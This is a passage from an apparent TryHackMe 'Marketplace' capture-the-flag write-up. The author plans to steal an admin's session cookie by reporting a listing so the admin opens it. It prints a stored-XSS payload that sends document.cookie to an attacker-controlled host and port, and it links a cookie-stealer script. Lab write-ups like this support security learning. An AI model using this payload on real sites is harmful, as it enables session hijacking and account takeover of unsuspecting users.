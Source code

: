 But I still have doubts about how to do this somehow the admin user needs to interact.

I've been wandering around the site a little more and this catches my attention.

![report](/assets/img/tryhackme/marketplace/report.png)

In other words, we can report the list we created to the admin. So The admin will review the report we sent and click on the payload that we will upload. This means that we may have the cookies of the admin user.

Let 's do it.

So ı found this GitHub repository for stealing cookies. [Steal Cookies with Reflected XSS](https://github.com/R0B1NL1N/WebHacking101/blob/master/xss-reflected-steal-cookie.md). **`(It's don't working.)`**

The page says there is a python script that steals cookies, we need to run it first. [lnxg33k's cookie stealer script](https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py)

Then our payload code is as follows:

```
<script>
alert(document.cookie);
var i=new Image;
i.src="http://<your-ip>:8888/?"+document.cookie;
</script>
```
